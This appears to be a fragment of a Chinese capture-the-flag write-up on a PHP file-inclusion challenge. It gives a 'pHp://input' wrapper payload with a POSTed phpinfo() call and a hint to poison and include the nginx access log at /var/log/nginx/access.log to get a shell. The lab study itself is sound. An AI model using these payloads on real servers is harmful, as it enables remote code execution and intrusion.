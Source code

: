 ![image-20250227213535186](assets/image-20250227213535186.png)

使用

```
URL/?file=pHp://input
POST:
<?php phpinfo()?>
```

即可

题目的提示是

> 包含日志文件 进行getshell 日志文件路径： ?file=/var/log/nginx/access.log

读取此日志文件：

```
?file=/var/log/nginx/access.log
```
